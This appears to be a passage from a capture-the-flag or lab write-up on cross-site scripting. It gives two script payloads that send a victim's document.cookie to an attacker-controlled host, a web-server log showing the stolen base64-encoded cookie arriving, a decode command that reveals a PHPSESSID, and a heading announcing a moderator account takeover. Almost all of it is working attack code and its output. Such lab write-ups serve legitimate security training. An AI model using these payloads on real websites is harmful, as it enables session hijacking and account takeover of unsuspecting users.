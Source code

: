 **ANOTHER PAYLOAD:**

```bash
<script>var i=new Image(); i.src="http://10.2.37.37/?cookie="+document.cookie;</script>
```

![image.png](image%206.png)

ANOTHER PAYLOAD:

```bash
<script>document.location="http://10.2.37.37/cookie?c="+document.cookie</script>
```

```bash
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.85.25 - - [16/Oct/2024 05:02:16] "GET /?UEhQU0VTU0lEPXZobjBnNWpqajNtczI0bWxuYzNlM242cG02 HTTP/1.1" 200 -
```

`echo 'UEhQU0VTU0lEPXZobjBnNWpqajNtczI0bWxuYzNlM242cG02' | base64 -d`

```bash
PHPSESSID=vhn0g5jjj3ms24mlnc3e3n6pm6
```

> **Moderator Account Takeover Phase**
> 
